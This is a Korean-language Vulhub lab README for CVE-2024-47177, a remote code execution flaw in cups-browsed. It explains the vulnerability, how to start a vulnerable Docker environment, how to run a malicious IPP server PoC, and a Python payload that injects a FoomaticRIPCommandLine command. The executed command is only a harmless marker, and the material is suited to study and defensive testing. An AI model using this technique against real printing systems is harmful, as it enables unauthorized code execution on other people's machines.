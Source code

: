 # OpenPrinting Cups-Browsed - FoomaticRIPCommandLine PPD 매개변수를 통한 원격 코드 실행 (CVE-2024-47177)

[Einglish version](https://github.com/vulhub/vulhub/blob/master/cups-browsed/CVE-2024-47177/README.md)
[Chinese version](https://github.com/vulhub/vulhub/blob/master/cups-browsed/CVE-2024-47177/README.zh-cn.md)

OpenPrinting CUPS(Common Unix Printing System)은 유닉스 계열 운영체제를 위해 개발된 오픈 소스 인쇄 시스템이다. CUPS를 이용하면 컴퓨터를 프린터 서버로 작동시켜 로컬 및 네트워크 프린터를 효율적으로 관리할 수 있다. cups-browsed는 CUPS 시스템의 일부인 데몬으로, 네트워크 상 다른 CUPS 서버에서 공유하는 프린터를 자동으로 탐색하고 설정하는 기능을 담당한다. 이를 통해 사용자는 수동 설정 없이도 네트워크 프린터를 쉽게 사용할 수 있다.

cups-browsed 2.0.1 버전 및 그 이전 버전에는, PPD(PostScript Printer Description) 파일 내 `FoomaticRIPCommandLine` 매개변수를 부적절하게 처리하는 문제점이 존재한다. 공격자는 악성 IPP(Internet Printing Protocol) 서버를 구축하여, 취약한 cups-browsed 인스턴스에 조작된 프린터 정보를 전달함으로써 대상 시스템에서 임의 명령어를 실행할 수 있다.

참고 자료 :

- https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/
- https://github.com/OpenPrinting/cups-browsed/security/advisories/GHSA-rj88-6mr5-rcw8

## 취약한 환경 구축

다음 명령어를 실행하여 CUPS 서버 2.4.7 버전과 취약한 cups-browsed 2.0.1을 실행할 수 있다:

```
docker-compose up -d
```

서버가 실행되면, 브라우저를 통해 `http://<your-ip>:631` 주소로 접속해 CUPS 웹 인터페이스에 접근할 수 있다.

## 익스플로잇 방법

먼저, [evil-ipp-server](https://github.com/vulhub/evil-ipp-server) 프로젝트를 다운받고 [poc.py](https://github.com/vulhub/evil-ipp-server/blob/master/poc.py)를 실행한다:

```
python poc.py [evil-ipp-server-ip] [target-ip]
```

이 스크립트는 `[evil-ipp-server-ip]` 주소에서 악성 IPP 서버를 구동하고, IP가 `[target-ip]`인 대상 시스템의 cups-browsed 데몬에 UDP 패킷을 전송한다.

대상 cups-browsed가 요청을 수신하면 악성 IPP 서버에 연결을 시도한다. 이때 IPP 서버는 조작된 `printer-privacy-policy-uri` 속성을 포함해 응답을 보낸다. 페이로드 구조는 다음과 같다:

```python
(
    SectionEnum.printer,
    b'printer-privacy-policy-uri',
    TagEnum.uri
): [b'https://www.google.com/"\n*FoomaticRIPCommandLine: "' +
    b'echo 1 > /tmp/I_AM_VULNERABLE' +
    b'"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'],
```

이후 cups-browsed는 `/tmp/` 디렉토리에 임시 PPD 파일을 생성하는데, 위 페이로드가 이 파일에 주입된다. 아래 스크린샷은 cups-browsed의 관련 로그를 보여준다:

![](1.png)

하지만 이 시점에서는 명령어가 아직 실행되지 않았다. 명령어가 실제로 실행되려면, 프린트 작업이 최소 1건 이상 발생해야 한다.

프린트 작업은 일반 사용자 또는 공격자 모두 발생시킬 수 있다. 만약 대상 시스템의 TCP 631번 포트가 열려 있다면, 브라우저를 통해 CUPS 웹 인터페이스에 접속해 악성 IPP 서버로 등록된 프린터를 선택할 수 있다. 그 후, "테스트 페이지 인쇄" 작업을 생성하면 된다 :

![](2.png)

이 과정을 완료하면, `echo 1 > /tmp/I_AM_VULNERABLE` 명령어가 정상적으로 실행되어 /tmp/ 디렉토리에 I_AM_VULNERABLE 파일이 생성된다.

![](3.png)
